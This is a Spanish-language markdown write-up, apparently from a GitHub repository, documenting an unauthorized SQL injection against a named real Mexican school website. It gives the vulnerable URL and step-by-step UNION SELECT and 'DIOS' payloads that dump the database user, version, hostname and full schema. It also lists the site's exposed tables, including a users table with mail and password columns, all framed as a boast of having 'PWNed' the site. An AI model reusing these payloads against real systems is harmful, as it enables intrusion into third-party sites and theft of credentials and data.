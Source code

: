 ### Original Dork
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=112
````

### Vulnerable a:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=112'
````

### La BD tiene 9 tablas (se rompe en 10) - SQLi PWNed!!!
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112'  Union Select 1,2,3,4,5,6,7,8,9 --+-
````

### Para arrojar la trifuerza:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112'  Union Select 1,"Injected by Fz3r0",3,4,5,6,(CONCAT(0x3c62723e,"User + Database + Version Dump:",0x3c62723e,0x3c62723e,USER(),0x3c62723e,DATABASE(),0x3c62723e,VERSION(),0x3c62723e,0x3c62723e,"DIOS hecho en Mexico",0x3c62723e)),8,9 --+-
````

### Se arma el DIOS (aqui lo pongo por separado):
````bat
concat("SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico'),3,4,5,6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database PWNed!!!','<br>',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database())))
````

### Ahora si, se agrega el DIOS al número vulnerable, aquí usé 2 diferentes:
- version sin tanto pimp:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat("SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico'),3,4,5,6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database = PWNed!!!','<br>',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+- 
````

- version Fz3r0 DIOS mega pimp del papi:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat('<span style="font-size:40px;color:red;">',"SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico','</span>'),'666',4,'666',6,concat_ws('<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">','<span style="font-size:22px;color:red;">','Hay fuerza, hay mente,','hay artillería pesada controlando el machete','<span style="font-size:17px;color:green;">','<br>','Database | Version | User | Hostame = PWNed!!!!','<br>',database(),version(),user(),@@hostname,'<br>','Full Database = PWNed!!!',(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+- 
````

### Se puede ofuscar y codificar al final para la estocada final:
````bat
````

---

## Datos 

- Se me resbalaron unos comandos: 

### Bases de datos:
````bat
http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,concat('<span style="font-size:40px;color:red;">',"SQL Injection by Fz3r0",'<br>','DIOS Hecho en Mexico','</span>'),'666',4,'666',6,(SELECT+(@x)+FROM+(SELECT+(@x:=0x00),(@NR_DB:=0),(SELECT+(0)+FROM+(INFORMATION_SCHEMA.SCHEMATA)+WHERE+(@x)+IN+(@x:=CONCAT(@x,LPAD(@NR_DB:=@NR_DB%2b1,2,0x30),0x20203a2020,schema_name,0x3c62723e))))x),8,9 --+- 
````

### Bases de datos:

````
Activ_plantel
Area
Avisos
CatDocente
Cat_Com
Convenios
Directorio
Especialidad
Especialidad_copy1
Especialidad_has_Planteles
Eventos
Invitacion_adq
Modulos_Especialidad
Municipio
Planteles
Programa_Anual
Programa_Anual_copy1
Registro_huk
Registro_test
archivos
avisos_SPD_BKP
avisos_USICAMM
buzon_denuncias
buzon_sugerencias
categorias
detalleDocente
directorio_planteles
especialidades_en_planteles
estrado_electronico
img_notas
img_notas_copy1
infoSPD
list_planteles
noticias
noticias_copy1
tipo_mensaje
tipo_usuario
usuarios 
````

## Dump Data Users
````bat
id
mail
passw
privilegios
usuario
````


## Tablas directorio
````
area
cargo
correo
extension
id_directorio
id_padre
nivel
orden
status
titular
````



http://cecytab.edu.mx/index.php?page=det_prensa&id=-112' Union Select 1,2,3,4,5,6,concat_ws('<br>','Injected by Fz3r0','<br>','<img src="https://raw.githubusercontent.com/Fz3r0/Fz3r0_-_BlackShark/main/Art/DIOS_Fz3r0_mini.png">',database(),version(),user(),@@hostname,(select(group_concat('<br>',table_name,':',column_name))from(information_schema.columns)where(table_Schema=database()))),8,9 --+-
